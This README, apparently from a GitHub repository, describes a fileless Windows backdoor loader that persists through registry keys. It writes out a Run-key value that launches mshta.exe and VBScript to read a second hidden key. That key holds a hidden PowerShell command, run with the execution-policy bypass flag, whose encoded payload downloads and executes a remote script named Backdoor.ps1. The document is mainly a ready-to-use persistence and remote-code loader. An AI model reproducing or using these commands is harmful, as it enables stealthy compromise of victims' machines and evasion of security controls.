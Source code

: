 # Load-hidden-in-Registry



Producing ahidden stratup to apowershell backdoor with no files just aloader to put reg keys
it offers many loaders with alot of types

Winscript Commands in reg keys calls throw mshta.exe

startup Load
reg key:
HKCU\Software\Microsoft\Windows\CurrentVersion\Run\
Value:
MSHTA VbScript:Execute("CreateObject(""Wscript.Shell"").Run CreateObject(""Wscript.Shell"").RegRead(""HKCU\v1Elm0D""), 0, False:close")

![alt tag](https://github.com/Elm0D/Load-hidden-in-Registry/blob/master/Screenshot1.png)

Backdoor Key:
HKCU\v1Elm0D
value:
powershell.exe -ep bypass -w hidden -e SQBFAFgAIAAoAE4AZQB3AC0ATwBiAGoAZQBjAHQAIABOAGUAdAAuAFcAZQBiAEMAbABpAGUAbgB0ACkALgBEAG8AdwBuAGwAbwBhAGQAUwB0AHIAaQBuAGcAKAAnAGgAdAB0AHAAcwA6AC8ALwBnAGkAcwB0AC4AZwBpAHQAaAB1AGIAdQBzAGUAcgBjAG8AbgB0AGUAbgB0AC4AYwBvAG0ALwBFAGwAbQAwAEQALwAzAGUAMQA2ADAAOABhAGMANABjADEAYQAxADkAMwBhADcAZAA2ADMAYgA0AGIAMQAwAGMAYwA4AGYAZQBjADQALwByAGEAdwAvADgAOQA4ADMAZQAxADAAZQBmAGUAOAAyADYAMgAyADYAMABmAGEAZgBiADQAOQA1ADMAOQBhAGIAMwBjADgAOQA4ADYAOAA5ADUAYgA3ADgALwBCAGEAYwBrAGQAbwBvAHIALgBwAHMAMQAnACkAOwA=

![alt tag](https://github.com/Elm0D/Load-hidden-in-Registry/blob/master/Screenshot2.png)
